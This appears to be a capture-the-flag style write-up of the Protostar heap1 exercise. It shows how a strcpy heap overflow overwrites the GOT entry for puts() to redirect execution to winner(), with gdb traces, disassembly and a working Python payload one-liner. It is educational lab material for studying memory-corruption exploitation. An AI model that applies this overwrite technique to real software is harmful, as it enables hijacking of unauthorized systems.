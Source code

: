 Here we have two struct (objects basically) located in heap.
They are located one after another and using vulnerability in strcpy function, we can take control over execution flow.

The goal is to jump to winner function:

```
user@protostar:/opt/protostar/bin$ objdump -D heap1 | grep winner
08048494 <winner>:
```

Let's see what happens if we supply more than 8 bytes of input:

```
(gdb) run AAAABBBBCCCCDDDDEEEEFFFFGGGG 000011112222333344445555
Starting program: /opt/protostar/bin/heap1 AAAABBBBCCCCDDDDEEEEFFFFGGGG 000011112222333344445555

Program received signal SIGSEGV, Segmentation fault.
*__GI_strcpy (dest=0x46464646 <Address 0x46464646 out of bounds>, src=0xbffff977 "000011112222333344445555") at strcpy.c:40
40      strcpy.c: No such file or directory.
        in strcpy.c
```

0x46 = F. We have tried to write to 0x46464646 address whatever is in second argument.


Now, we will supply address of winner() as second argument, and we will replace FFFF from original payload address of GOT entry for puts().

Why puts()?

If we look at assembly code of main function, puts() is called after malloc calls and memory corruption we create.

```
(gdb) disassemble main
Dump of assembler code for function main:
0x080484b9 <main+0>:    push   ebp
0x080484ba <main+1>:    mov    ebp,esp
0x080484bc <main+3>:    and    esp,0xfffffff0
0x080484bf <main+6>:    sub    esp,0x20
0x080484c2 <main+9>:    mov    DWORD PTR [esp],0x8
0x080484c9 <main+16>:   call   0x80483bc <malloc@plt>
0x080484ce <main+21>:   mov    DWORD PTR [esp+0x14],eax
0x080484d2 <main+25>:   mov    eax,DWORD PTR [esp+0x14]
0x080484d6 <main+29>:   mov    DWORD PTR [eax],0x1
0x080484dc <main+35>:   mov    DWORD PTR [esp],0x8
0x080484e3 <main+42>:   call   0x80483bc <malloc@plt>
0x080484e8 <main+47>:   mov    edx,eax
0x080484ea <main+49>:   mov    eax,DWORD PTR [esp+0x14]
0x080484ee <main+53>:   mov    DWORD PTR [eax+0x4],edx
0x080484f1 <main+56>:   mov    DWORD PTR [esp],0x8
0x080484f8 <main+63>:   call   0x80483bc <malloc@plt>
0x080484fd <main+68>:   mov    DWORD PTR [esp+0x18],eax
0x08048501 <main+72>:   mov    eax,DWORD PTR [esp+0x18]
0x08048505 <main+76>:   mov    DWORD PTR [eax],0x2
0x0804850b <main+82>:   mov    DWORD PTR [esp],0x8
0x08048512 <main+89>:   call   0x80483bc <malloc@plt>
0x08048517 <main+94>:   mov    edx,eax
0x08048519 <main+96>:   mov    eax,DWORD PTR [esp+0x18]
0x0804851d <main+100>:  mov    DWORD PTR [eax+0x4],edx
0x08048520 <main+103>:  mov    eax,DWORD PTR [ebp+0xc]
0x08048523 <main+106>:  add    eax,0x4
0x08048526 <main+109>:  mov    eax,DWORD PTR [eax]
0x08048528 <main+111>:  mov    edx,eax
0x0804852a <main+113>:  mov    eax,DWORD PTR [esp+0x14]
0x0804852e <main+117>:  mov    eax,DWORD PTR [eax+0x4]
0x08048531 <main+120>:  mov    DWORD PTR [esp+0x4],edx
0x08048535 <main+124>:  mov    DWORD PTR [esp],eax
0x08048538 <main+127>:  call   0x804838c <strcpy@plt>
0x0804853d <main+132>:  mov    eax,DWORD PTR [ebp+0xc]
0x08048540 <main+135>:  add    eax,0x8
0x08048543 <main+138>:  mov    eax,DWORD PTR [eax]
0x08048545 <main+140>:  mov    edx,eax
0x08048547 <main+142>:  mov    eax,DWORD PTR [esp+0x18]
0x0804854b <main+146>:  mov    eax,DWORD PTR [eax+0x4]
0x0804854e <main+149>:  mov    DWORD PTR [esp+0x4],edx
0x08048552 <main+153>:  mov    DWORD PTR [esp],eax
0x08048555 <main+156>:  call   0x804838c <strcpy@plt>
0x0804855a <main+161>:  mov    DWORD PTR [esp],0x804864b
0x08048561 <main+168>:  call   0x80483cc <puts@plt>
0x08048566 <main+173>:  leave
0x08048567 <main+174>:  ret
End of assembler dump.
```

It's worth noting that compiler has replaced printf() from the original code with puts() for optimization.

Let's find GOT entry for puts:


From disassemble main:

```
0x08048561 <main+168>:  call   0x80483cc <puts@plt>
```

Look at 0x80483cc:

```
(gdb) x/10i 0x80483cc
0x80483cc <puts@plt>:   jmp    DWORD PTR ds:0x8049774
0x80483d2 <puts@plt+6>: push   0x30
0x80483d7 <puts@plt+11>:        jmp    0x804835c
```

0x8049774 points to puts from libc library.

Putting everyting together now:

```
user@protostar:/opt/protostar/bin$ python -c "print 'A'*20 + '\x74\x97\x04\x08' + ' \x94\x84\x04\x08'" > /tmp/h1
user@protostar:/opt/protostar/bin$ ./heap1 $(cat /tmp/h1)
and we have a winner @ 1548006175
```